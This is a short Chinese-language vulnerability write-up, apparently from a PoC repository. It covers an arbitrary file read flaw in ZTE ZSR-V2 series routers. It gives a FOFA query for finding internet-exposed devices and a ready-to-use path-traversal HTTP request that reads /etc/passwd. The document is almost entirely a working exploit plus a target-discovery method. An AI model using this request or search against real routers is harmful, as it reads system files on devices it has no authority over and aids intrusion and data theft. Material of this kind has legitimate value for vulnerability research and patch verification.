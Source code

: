 # 中兴ZTE-ZSR-V2系列多业务路由器存在任意文件读取漏洞

中兴ZTE-ZSR-V2系列多业务路由器存在任意文件读取漏洞，任意文件下载漏洞可能导致敏感信息泄露、数据盗窃及其他安全风险，从而对系统和用户造成严重危害。

## fofa

```javascript
title="ZSRV2路由器Web管理系统"
```

## poc

```
GET /css//../../../../../../../../etc/passwd HTTP/1.1
Host: {{Hostname}}
```

